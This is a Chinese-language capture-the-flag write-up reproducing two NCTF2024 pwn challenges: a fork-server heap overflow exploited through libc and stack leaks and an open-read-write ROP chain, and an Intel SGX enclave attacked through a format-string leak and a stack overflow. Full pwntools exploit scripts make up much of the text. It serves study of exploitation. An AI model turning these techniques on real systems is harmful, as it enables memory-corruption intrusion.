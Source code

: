 # NCTF2024【复现】

注：由于本人实在太菜，因此没有做出任何题目，仅对所有赛题进行复现

## diary

是基于fork的server，因此不能采用system(/bin/sh);

**为什么交互式 Shell 会失败？**

- **文件描述符继承是关键：** 当孙子进程通过 `exec` 启动 `/bin/sh` 时，它**继承了创建它的进程（即原服务器子进程）的文件描述符**。
- **标准输入/输出/错误指向哪里？** 在典型的 `fork` 服务器子进程中，文件描述符 0 (标准输入 stdin), 1 (标准输出 stdout), 和 2 (标准错误 stderr) 通常都指向**子进程**用来与客户端通信的那个网络连接套接字 `conn_fd`。因为子进程是从父进程那里继承了这个 `conn_fd`，并且通常会用它来进行读写。
- 失败的原因：
  1. **`/bin/sh` 的感知：** 当 `/bin/sh` 启动时，它检查其标准输入输出。发现它们连接到一个套接字而不是一个终端(TTY/PTY)时，它可能不会进入完全的交互模式。
  2. **标准 I/O 缓冲：** 这是最常见的问题。当 `/bin/sh` (在孙子进程中) 向标准输出 (FD 1，指向 `conn_fd`) 写入数据时（比如命令提示符或命令执行结果），数据并不会立即通过网络发送。因为标准输出连接到套接字时，通常使用**全缓冲 (Full Buffering)**。数据会被暂存在内存缓冲区里，直到缓冲区满了，或者 `/bin/sh` 进程显式地刷新缓冲区（`fflush`）或退出时，数据才会被真正写入 `conn_fd` 发送出去。这就导致了交互的延迟或完全不响应。标准输入也可能存在类似问题。
  3. **子进程可能提前关闭 FD：** 在某些服务器逻辑下，子进程可能在处理完合法请求（或者发生错误）后、但在 `system()` 被非预期地调用之前，就已经关闭了 `conn_fd`。这样，即使孙子进程启动了 `/bin/sh`，它的输入输出也无处可去。
  4. **`system()` 本身的机制：** 如前所述，`system()` 通过 `sh -c` 执行命令，这主要是为了执行单个命令并获取结果，而不是为了启动一个持久的交互式会话。

***另外地\***，在orw途中，由于标准输入0、标准输出1、标准错误2都被绑定在socket上面，因此如果直接打印到fd=0、1、2我们无法看见，最终做法是write(4,flag,len);，为什么呢？

程序fork时，父进程中已使用的 FD 有 0, 1, 2 (标准流) 和 3 (`listen_fd`)。因此，`accept()` 返回的**新的连接套接字 `conn_fd`** 得到的编号是 **4**，而子程序关闭listen_fd，因此编号为3的fd就空出来了作为之后open(flag)的fd，而write写向fd=4即socket我们就可以得到flag

![img](../images/nctf1.png)

漏洞点在于malloc(len+1)

![img](../images/nctf2.png)

如果Len为0xffffffff的话malloc会malloc(0)，**而我们使用对应的Len进行堆溢出**

***堆地址：\***通过溢出一个0从而打印出堆地址。

***libc地址：\***通过申请一个0x2000000的堆块塞满bss和libc的地址，打印leak出libc

通过environ泄露栈地址，**environ是一个与栈有固定偏移的地址，可以绕过ASLR**

把chunk分配到栈，最后orw读取文件

```
┌──(kali㉿kali)-[~/Desktop/nctf]
└─$ cat exp       
from pwn import *
k = process('./pwn')
io = remote("127.0.0.1",9999)
libc = ELF('libc.so.6')
context(os='linux',arch='amd64')
def add(len,con):
    io.send(b'1')
    io.sendafter(b'Input length:\n',str(len).encode())
    io.sendlineafter(b'Input content:\n',con)
def dele(idx):
    io.send(b'2')
    io.sendafter(b'Input index:\n',str(idx).encode())
def edit(idx,con):
    io.send(b'3')
    io.sendafter(b'Input index:\n',str(idx).encode())
    io.sendlineafter(b'Input content:\n',con)
def show(idx):
    io.send(b'4')
    io.sendafter(b'Input index:\n',str(idx).encode())

add(0x80,b'a')
add(0xffffffff,b'\x00')
add(0x80,b'a')
add(0x80,b'a')
edit(1,b'a'*0x20)
show(2)
log.info("[*]overflow the \x00 to cover the pointer and then leak the address")
io.recvuntil(p64(0x21))
heap_base = u64(io.recv(8)) - 0x370
log.info("[*]heap addr : "+hex(heap_base))
dele(1)
add(0x2000000,b'a')
show(2)
io.recvuntil(p64(0x21))
libc_base = u64(io.recv(8)) - 0x7f6e3c800010 + 0x7f6e3ea00000
log.info("[*]libc addr : "+hex(libc_base))
environ = libc_base + 0x7f6e3ec0ad58 - 0x7f6e3ea00000
log.info("[*]envi addr : "+hex(environ))
dele(1)
add(0xffffffff,b'\x00')
edit(1,b'\x00'*0x18 + p64(0x21) + p64(environ) + p64(0x81))
show(2)
io.recvuntil(b'Content:\n')
stack_addr = u64(io.recv(8)) + 8 + 0x7ffd95677750 - 0x7ffd956779a8
log.info(hex(stack_addr)) 
#this stack addr is Menu function's ret addr
pop_rdi_ret = libc_base + 0x10f75b
pop_rsi_ret = libc_base + 0x10f759
#pop_rsi_pop_r12_ret
magic = libc_base + 0xb0133
#mov rdx,rbx; pop rbx; pop r12; pop rbp; retn
pop_rbx_ret = libc_base + 0x586e4
open = libc_base + libc.symbols['open']
write = libc_base + libc.symbols['write']
read = libc_base + libc.symbols['read']
edit(0,b'flag\x00\x00')
flag = heap_base + 0x2c0
ROP = p64(pop_rdi_ret) + p64(flag) + p64(pop_rsi_ret) + p64(0) + p64(0) + p64(open)
#OPEN_FUNC
ROP += p64(pop_rdi_ret) + p64(0x3) + p64(pop_rsi_ret) + p64(heap_base+0x50) + p64(0) + p64(pop_rbx_ret) + p64(0x30) + p64(magic) + p64(0x30) + p64(0) + p64(stack_addr+0x100) + p64(read)
ROP += p64(pop_rdi_ret) + p64(0x4) + p64(write)
print(hex(pop_rsi_ret))
edit(1,b'\x00'*0x18 + p64(0x21) + p64(stack_addr) + p64(0x101))
edit(2,ROP)
io.send(b'5')
io.interactive()
```
## unauthwarden-whoami

# 什么是intel sgx？
想象一下 SGX 是什么： 
把它想象成电脑 CPU 内部的一个“超级保险箱”（这叫做 Enclave，或者叫“飞地”）。 它可以阻止一切“外人”的使用和读写，这些“外人”包括操作系统、其他软件，甚至是能接触到电脑内存的黑客。
其于内核十分相似，都是定义了“安全区”和“不安全区”，但是其更加恐怖的一点是其使用硬件实现，断绝了更多hacker通过都内存实现getshell或者读取信息的操作，这在云计算这种你不太信任运行
环境的场景下特别有用。但是程序怎么用这个保险箱？ 普通的程序可以通过特定的入口点请求保险箱里的代码帮忙处理敏感事务（这叫 ECALL）。 保险箱里的代码处理完，有时也需要通过出口点请求
外面的程序帮忙做些普通工作（这叫 OCALL）。而下面这题的flag被存在Enclave的某个内存中，我们需要通过寻找ecall的漏洞让其将flag从“保险箱”内部打印出来。题目将一个动态链接库unauthw
arden.signed.so设置为飞地，因此漏洞多半在其内这题的漏洞点在于unauthwarden.signed.so中的ecall_print_username的fmt以及ecall_do_seal_send存在栈溢出

```
from pwn import *
env={'LD_LIBRARY_PATH': '/opt/intel/sgxsdk/lib64:$LD_LIBRARY_PATH'}
io = process('./test_app',env=env)
context(os = 'linux',arch = 'amd64',log_level='debug')
def register(usr,pwd):
    io.sendafter(b'>> ',b'2')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def login(usr,pwd):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def add(usr,pwd):
    io.sendafter(b'>> ',b'1')
    io.sendafter(b'Enter username: ',usr)
    io.sendafter(b'Enter password: ',pwd)
def show(idx):
    io.recvuntil(b'>> ')
    io.send(b'2')
    io.sendafter(b'Enter record index (1-5): ',str(idx).encode())
def logout():
    io.recvuntil(b'>> ')
    io.send(b'6')
def send_seal(data):
    io.recvuntil(b'>> ')
    io.send(b'4')
    if io.recv(6) == b'Sealed':
        io.sendlineafter(b'to reject.\n', b'y')
    io.sendlineafter(b'to seal: ', str(len(data)).encode())
    for i in range(0, len(data), 0x100):
        io.sendafter(b'batch):', data[i: i + 0x100])
    io.sendlineafter(b'(y/n): ', 'y'.encode())
def show_seal():
    io.recvuntil(b'>> ')
    io.send(b'5')

register(b'%3$p',b'123')
login(b'%3$p',b'123')
io.recvuntil(b'back, ')
addr = int(io.recvuntil(b'\n',drop=True).decode(),16) - 0x2719f4
log.info(hex(addr))
#gdb.attach(io)
pop_rdi_ret = addr + 0x3e34
root_pwd = addr + 0x11c020
printf = addr + 0x10B3
ret = addr + 0x1052
gdb.attach(io)
send_seal(b'?' * 256 + b'!' * 0x8 + p64(pop_rdi_ret) + p64(root_pwd) + p64(ret) + p64(printf)+b'')

io.interactive() 
```

![img](../images/nctf4.png)
